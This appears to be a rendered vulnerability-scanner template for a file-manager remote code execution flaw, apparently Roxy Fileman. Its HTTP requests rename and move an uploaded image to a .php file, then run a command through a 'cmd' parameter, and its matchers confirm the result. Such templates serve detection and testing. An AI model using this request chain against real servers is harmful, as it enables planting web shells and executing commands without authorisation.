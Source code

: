 ### Step - 2

```
POST /php/renamefile.php?f=%2Fapp%2FUploads%2F{{randstr}}.jpg&n={{randstr}}.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest

f=%2Fapp%2FUploads%2F{{randstr}}.jpg&n={{randstr}}.php

```

### Step - 3

```
POST /php/movefile.php?f=%2Fapp%2FUploads%2F{{randstr}}.jpg&n=%2Fapp%2FUploads%2F{{randstr}}.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest

f=%2Fapp%2FUploads%2F{{randstr}}.jpg&n=%2Fapp%2FUploads%2F{{randstr}}.php

```

### Step - 4

```
GET /Uploads/{{randstr}}.php?cmd=echo+"roxyfileman"+|+rev HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - regex**

- part - body
- regex
  1. namelifyxor

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# AWS S3 Explorer
